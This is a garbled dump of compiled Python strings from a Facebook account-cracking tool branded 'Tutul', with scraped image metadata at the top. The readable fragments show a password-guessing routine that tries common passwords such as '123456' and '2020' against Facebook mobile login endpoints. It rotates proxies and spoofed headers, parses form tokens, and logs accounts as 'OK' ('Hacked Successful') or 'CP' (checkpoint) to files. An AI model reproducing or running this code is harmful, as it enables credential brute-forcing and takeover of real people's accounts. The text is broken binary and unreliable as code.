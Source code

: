 �   )Zmax_workersr�   r   r   r   �   r�   Z2020Z2021Z2022Z123456Z123Z1234Z12345r�   r�   ZfreeZtouchr�   uM   	[purple][Tutul][green] Thanks Bro For Using My ToOls💚[purple] <<[yellow] r�   r�   r�   z OK : z%s z CP : z%su    [√] Bro Crack Again ( Y/t ) ? z[?] CHOOSE: r�   �	z Good Bye Dadar�   ) r�   r�   r   r�   r�   r�   r^   r�   �okc�cpc�tredr�   r�   �lowerr�   rA   r�   r�   r�   �submit�crack�	crackfree�
cracktouch�crackmbasic�ok�cpr�   re   r�   r\   r]   r{   )ZpoolZyuzong�idfZnmfZfrs�pwvZxpwdZwoirL   rL   rM   r�   g  sv   P$$"

�



��*&0



r�   c              "   C   s   t �ttttttg�}tj	�
d|� dt� d|� t� t� dt� t
t�� t� dt� dt� t� t� dt� dt� t� t� d|� d�ttt
t�� �� t� d��f tj	��  t �t�}t �t�}t�� }|D �]&}�zt �t�}d	d
| i}|j�dd|d
dddddddddd�
� |�d|  d �}	t�dt|	j ���!d�t�dt|	j ���!d�| dd|d�}
d�"d d!� |	j#�$� �%� D ��}|d"7 }dd#dd$d%|d
dddddd&ddd'�}|j&d(|
d)|i|d*|d+�}
d,|
j#�$� �'� v �rt(t)d-�� t*dt+� d.| � d/|� d0t,� �� t-d1t. d2��
| d3 | d4 � t/�0| d3 | � td7 aW  nld5|j#�$� �'� v �rwtd7 a|
j#�$� }d�"d6d!� |j#�$� �%� D ��}t(t)d7�� t*dt� d8| � d/|� d/|� d4|� t,� �� t-d9t1 d2��
| d3 | d3 | d4 � t2t3|� W  nW qb tj4j5�y�   t6�7d:� Y qbw td7 ad S );Nr�   u         [Mr.Tutul]😱 r�   r;   z]-z]--[�{:.0%}�]  �httpz	socks4://zm.facebook.comrO   ��text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9�mark.via.gp�same-origin�cors�empty�documentzhttps://m.facebook.com/�gzip, deflate br�en-GB,en-US;q=0.9,en;q=0.8�
�Hostr�   r�   r�   �dnt�x-requested-with�sec-fetch-site�sec-fetch-mode�sec-fetch-user�sec-fetch-destr�   �accept-encodingr�   �8https://p.facebook.com/login/device-based/password/?uid=�)&flow=login_no_pin&refsrc=deprecated&_rdr�name="lsd" value="(.*?)"r   �name="jazoest" value="(.*?)"�)https://p.facebook.com/login/save-device/�login_no_pin�Zlsd�jazoestr�   �nextZflow�pass�;c                 S   �   g | ]
\}}d ||f �qS �z%s=%srL   ��.0�key�valuerL   rL   rM   �
<listcomp>�  �    zcrack.<locals>.<listcomp>�  m_pixel_ratio=2.625; wd=412x756r�   zhttps://m.facebook.com�!application/x-www-form-urlencodedzlhttps://m.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F�r  r�   r�   r�   r�   r�   r�   r  r  r  r  r  r�   r  r�   �Chttps://p.facebook.com/login/device-based/validate-password/?shbl=0ri   F�r�   rk   r�   �allow_redirectsZproxies�
checkpointu6     [red]   😒😭 CP 😭😒 Login After 7Days [red]z>> [Tutul-Cp] z | r   r�   rJ   r�   r<   �c_userc                 S   r(  r)  rL   r*  rL   rL   rM   r.  �  r/  uI   [green]      💔 Ok 💔 Hacked Successful id Login Karo Fast😱[green]z>> [Tutul-Ok] r�   r�   )8r�   r�   r�   r�   r�   r�   r^   r�   rY   rZ   rH   r+   �loopr�   rm   r#   r  r  �format�floatr[   r@   �ugen2rB   r�   �proxr�   r�   rC   rE   r�   rG   rD   r�   �joinrk   �get_dict�items�post�keysr�   r�   r   r&   r)   r=   r�   �akunrA   r�   �cek_apk�sessionrw   rx   r\   r]   )r  r  ZborI   �ua2r�   �pw�nip�proxsr�   �dataa�koki�heade�po�coki�kukirL   rL   rM   r  �  sL   �




(:$  
*(
�r  c           
      C   sD  t j�d�g d�t� �d�t� �d�t� �d�t� �d�t� �t� �t� �d�|� �tt	�� �t� �d�t� �d�t
� �t� �t� �d�t� �d�t� �t